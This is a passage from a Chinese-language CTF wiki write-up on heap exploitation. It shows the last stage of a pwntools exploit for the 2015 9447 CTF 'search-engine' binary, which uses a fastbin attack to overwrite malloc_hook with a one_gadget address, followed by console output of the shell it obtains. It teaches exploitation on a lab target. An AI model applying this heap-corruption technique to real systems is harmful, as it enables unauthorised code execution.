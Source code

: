 ```shell

```

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 `0x7fd798586aed`。 此后便只需要将 malloc_hook 修改为 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

当然，这里还有一种[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，将 chunk 分配到栈上。

## 2017 0ctf babyheap
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2017_0ctf_babyheap)
